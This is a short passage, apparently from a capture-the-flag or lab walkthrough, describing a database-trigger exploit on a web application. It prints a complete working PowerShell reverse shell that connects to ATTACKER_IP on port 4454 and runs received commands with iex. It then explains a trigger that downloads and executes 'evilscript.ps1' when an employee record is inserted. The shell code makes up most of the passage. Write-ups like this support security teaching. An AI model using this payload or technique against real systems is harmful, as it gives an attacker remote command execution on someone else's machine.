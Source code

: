 ```PowerShell
$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP",4454);

$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};

$client.Close()
```

We will need to open two terminals to handle the connections involved in this exploit:
* The trigger will perform the first connection to download and execute `evilscript.ps1`. Our trigger is using port 8000 for that.
* The second connection will be a reverse shell on port 4454 back to our attacker machine.

With all that ready, let's navigate to the website and insert an employee into the web application. Since the web application will send an INSERT statement to the database, our TRIGGER will provide us access to the system's console.